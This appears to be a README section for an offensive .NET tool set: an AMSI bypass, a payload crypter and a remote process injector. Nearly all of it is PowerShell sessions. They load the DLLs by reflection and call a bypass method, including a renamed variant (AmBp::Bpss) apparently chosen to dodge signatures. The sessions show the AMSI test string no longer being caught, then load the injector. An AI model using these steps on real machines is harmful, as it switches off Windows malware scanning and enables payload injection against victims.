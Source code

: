 Loads the AMSI bypasser.
Can be compiled to a DLL and loaded via reflection, or included in a larger .NET Assembly (e.g. [SharpSploit](https://github.com/cobbr/SharpSploit/blob/master/SharpSploit/Evasion/Amsi.cs)).

```
PS > [System.Reflection.Assembly]::LoadFile("X:\AmsiScanBufferBypass\ASBBypass\bin\Debug\ASBBypass.dll")

GAC    Version        Location
---    -------        --------
False  v4.0.30319     X:\AmsiScanBufferBypass\ASBBypass\bin\Debug\ASBBypass.dll

PS > [Amsi]::Bypass()
```
### OR

```
PS X:\payloads> [System.Reflection.Assembly]::LoadFile("X:\AmByp\AmByp\bin\Debug\AmByp.dll")

GAC    Version        Location
---    -------        --------
False  v4.0.30319     X:\AmByp\AmByp\bin\Debug\AmByp.dll

PS > [AmBp]::Bpss()
```

```
PS > Invoke-Expression 'AMSI Test Sample: 7e72c3ce-861b-4339-8740-0ac1484c1386'
AMSI : The term 'AMSI' is not recognized as the name of a cmdlet, function, script file, or operable program. Check the
 spelling of the name, or if a path was included, verify that the path is correct and try again.
At line:1 char:1
+ AMSI Test Sample: 7e72c3ce-861b-4339-8740-0ac1484c1386
+ ~~~~
    + CategoryInfo          : ObjectNotFound: (AMSI:String) [], CommandNotFoundException
    + FullyQualifiedErrorId : CommandNotFoundException
```

## 2. Usage Crypter and ProcessInjector
### C#

Loads the process injector and payload crypter.
Can be compiled to a DLL and loaded via reflection, or included in a larger .NET Assembly (e.g. [SharpSploit](https://github.com/cobbr/SharpSploit/blob/master/SharpSploit/Evasion/Amsi.cs)).

```
PS > [System.Reflection.Assembly]::LoadFile("X:\AmsiScanBufferBypass\ProcessInjector\bin\Debug\netstandard2.0\Rem_proc_inj.dll")

GAC    Version        Location
---    -------        --------
False  v4.0.30319     X:\AmsiScanBufferBypass\ProcessInjector\bin\Debug\netstandard2.0\Rem_proc_inj.dll

PS > [Rem_proc_inj.execute_program]

IsPublic IsSerial Name                                     BaseType
-------- -------- ----                                     --------
True     False    execute_program                          System.Object
```
